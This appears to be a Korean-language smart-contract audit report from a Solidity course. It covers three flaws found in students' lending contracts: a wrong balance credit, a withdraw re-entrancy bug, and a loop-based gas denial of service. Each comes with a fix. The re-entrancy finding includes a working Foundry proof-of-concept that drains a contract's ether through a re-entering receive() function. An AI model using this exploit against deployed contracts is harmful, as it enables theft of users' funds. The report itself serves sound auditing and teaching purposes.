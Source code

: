 ## 1. initializeLendingProtocol 함수 구현 오류

### 설명
[DreamAcademyLending.sol 44행]([https://github.com/dlanaraa/Lending_solidity/blob/55071b255a24d87517629b1d37672bc4ab580acc/src/DreamAcademyLending.sol#L127-L128](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L44))에서 이더리움을 보냈지만 usdc에 대한 잔고를 올리도록 구현되어있어서,

withdraw함수에서 보내지도 않은 usdc를 받을 수 있도록 될꺼같습니다.

### 파급력
심각도는 Critical로써 현재 예제에선 usdc라서 공격자가 손해이지만 이더리움보다 높은 가치의 토큰이 대상이라면 문제가 문제가 됩니다.

### 해결방안
해당 함수가 external 이기때문에 함수 내부에서 require로 컨트랙트의 admin 만 호출 가능하게하고, 그게 아니면 실제 입금한 자산에 대해서만 잔고를 올리도록 해야합니다.

### 해당 취약점 발견된 목록
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L44)

## 2. withdraw에서 call 사용하여 ether 반환할때 re-entrancy 취약점

### 설명
[DreamAcademyLending.sol 130행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)에서 call을 사용하여 ether를 전송하는데, 대상 account가 CA 인경우에 해당 CA에 구현된 receive에서 여러번 withdraw를 호출하면 Lending contract의 ether잔고를 (특정 account가 입금한 양보다 더 많이)인출 할 수 있다.

```
function testWithdrawAtt() external {
    vm.deal(address(lending), 30 ether); // 비교를 위해 Lending컨트랙트의 잔고를 30으로 맞춰둔다.
    lending.deposit{value: 1 ether}(address(0x0), 1 ether); // 공격 CA는 단 1 ether만 deposit
    vm.deal(address(this), 0 ether);
    console.log("Lending: balance before withdraw: %d", address(lending).balance); // 원래있던 30 ether + 공격자 1 ether deposit 해서 31 ether
    lending.withdraw(address(0x0), 1 ether);
    console.log("Lending: balance after withdraw: %d", address(lending).balance); // 0 ether
    console.log("Attacker: balance after withdraw", address(this).balance); // 31 ether
}

receive() external payable {
    if(address(lending).balance >= 1 ether){
        lending.withdraw(address(0x0), 1 ether);
    }
}
```

### 파급력

심각도는 Critical로써 공격자가 Lending 컨트랙트의 모든 ether 잔고를 할 수 있거나 대출을 repay하지 않고 담보를 인출해 갈 수 있습니다.

### 해결방안
withdraw 함수 구현을 Checks Effects Interaction Pattern으로 변경해야합니다. [133행](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L133)을 129행과 130행 사이로 이동시키면 됩니다.

### 해당 취약점 발견된 목록
* [Namryeong-Kim/Lending_solidity](https://github.com/Namryeong-Kim/Lending_solidity/blob/a732de5c30b9c0ca9ee12cccbbf4d6a267432d30/src/DreamAcademyLending.sol#L130)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L280)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L207)

### 스크린샷
![image](https://user-images.githubusercontent.com/127647300/228128932-b8e8d5de-dd51-4d83-b059-a6169e8b7de7.png)


## 3. 서비스 거부 공격
### 설명
사용자 수 만큼 for loop(while loop) 을 돌아야할때, 공격자가 가스비를 많이 소모하게 하여 결국에 컨트랙트의 특정 기능(for loop이 있는)을 사용하지 못하게하거나 가스비가 매우 많이 들게 하는 공격

### 파급력
심각도는 Informational로써 자산이 탈취당하거나 공격자가 설계한 비정상적인 로직이 실행되는건 아니지만 잠재적인 위험 요소라고 판단됩니다.

### 해결방안
상황마다 달라서 명확한 해결책은 없고, 사용자나 공격자의 어떤 행동에 의해 반복문 실행 회수가 쉽게 증가하지 않는 구조가 가능할지 검토해봐야합니다.

### 해당 취약점 발견된 목록
* [Gamj4tang/Lending_solidity](https://github.com/Gamj4tang/Lending_solidity/blob/25387e051e05d5a3022425b8d2af366a6d9051bc/src/DreamAcademyLending.sol#L251)
* [2-Sunghoon-Moon/Lending_solidity](https://github.com/2-Sunghoon-Moon/Lending_solidity/blob/bd5fab0c28da7b02a0f79c7a86c5f87b0b443dbf/src/DreamAcademyLending.sol#L334)
* [jun4n/Lending_solidity](https://github.com/jun4n/Lending_solidity/blob/fd3baab9a9c6384e6dfb767c23ce2f81cc1de913/src/DreamAcademyLending.sol#L86)
* [Sophie00Seo/Lending_solidity](https://github.com/Sophie00Seo/Lending_solidity/blob/e9ab337f8c8bb629c66613ef050b7533cbeee651/src/DreamAcademyLending.sol#L76)
* [seonghwi-lee/Lending](https://github.com/seonghwi-lee/Lending/blob/9f93e626f86beb865f0eec63a68dd4f18a4686f7/src/DreamAcademyLending.sol#L50)
